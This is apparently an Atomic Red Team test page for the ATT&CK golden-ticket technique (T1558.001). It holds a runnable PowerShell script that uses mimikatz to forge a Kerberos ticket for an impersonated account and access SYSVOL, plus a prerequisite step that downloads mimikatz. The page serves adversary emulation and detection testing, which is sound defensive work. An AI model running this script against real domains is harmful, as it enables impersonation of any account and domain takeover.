 # T1558.001 - Golden Ticket
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1558/001)
<blockquote>Adversaries who have the KRBTGT account password hash may forge Kerberos ticket-granting tickets (TGT), also known as a golden ticket.(Citation: AdSecurity Kerberos GT Aug 2015) Golden tickets enable adversaries to generate authentication material for any account in Active Directory.(Citation: CERT-EU Golden Ticket Protection) 

Using a golden ticket, adversaries are then able to request ticket granting service (TGS) tickets, which enable access to specific resources. Golden tickets require adversaries to interact with the Key Distribution Center (KDC) in order to obtain TGS.(Citation: ADSecurity Detecting Forged Tickets)

The KDC service runs all on domain controllers that are part of an Active Directory domain. KRBTGT is the Kerberos Key Distribution Center (KDC) service account and is responsible for encrypting and signing all Kerberos tickets.(Citation: ADSecurity Kerberos and KRBTGT) The KRBTGT password hash may be obtained using [OS Credential Dumping](https://attack.mitre.org/techniques/T1003) and privileged access to a domain controller.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Crafting Active Directory golden tickets with mimikatz](#atomic-test-1---crafting-active-directory-golden-tickets-with-mimikatz)


<br/>

## Atomic Test #1 - Crafting Active Directory golden tickets with mimikatz
Once the hash of the special krbtgt user is retrieved it is possible to craft Kerberos Ticket Granting Ticket impersonating any user in the Active Directory domain.
This test crafts a Golden Ticket and then performs an SMB request with it for the SYSVOL share, thus triggering a service ticket request (event ID 4769).
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 9726592a-dabc-4d4d-81cd-44070008b3af





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | string | example.com|
| account | Account to impersonate | string | goldenticketfakeuser|
| krbtgt_aes256_key | Krbtgt AES256 key | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | $env:TEMP&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to golden.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\golden.txt 2>&1 (
  echo Purge existing tickets and create golden ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{krbtgt_aes256_key} /user:#{account} /ptt" "exit"

  echo.
  echo Requesting SYSVOL:
  dir \\#{domain}\SYSVOL
  
  echo.
  echo Tickets after requesting SYSVOL:
  klist

  echo.
  echo End of Golden Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\golden.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\golden.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\golden.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Golden Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\golden.txt

# cleanup temp files
Remove-Item $env:TEMP\golden.bat -ErrorAction Ignore
Remove-Item $env:TEMP\golden.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
$mimikatz_relative_uri = Invoke-WebRequest "https://github.com/gentilkiwi/mimikatz/releases/latest" -UseBasicParsing | Select-Object -ExpandProperty Links | Where-Object -Property href -Like "*/mimikatz_trunk.zip" | Select-Object -ExpandProperty href
Invoke-WebRequest "https://github.com$mimikatz_relative_uri" -UseBasicParsing -OutFile "$env:TEMP\mimikatz.zip"
Expand-Archive $env:TEMP\mimikatz.zip $env:TEMP\mimikatz -Force
New-Item -ItemType Directory (Split-Path $mimikatz_path) -Force | Out-Null
Move-Item $env:TEMP\mimikatz\x64\mimikatz.exe $mimikatz_path -Force
```




<br/>

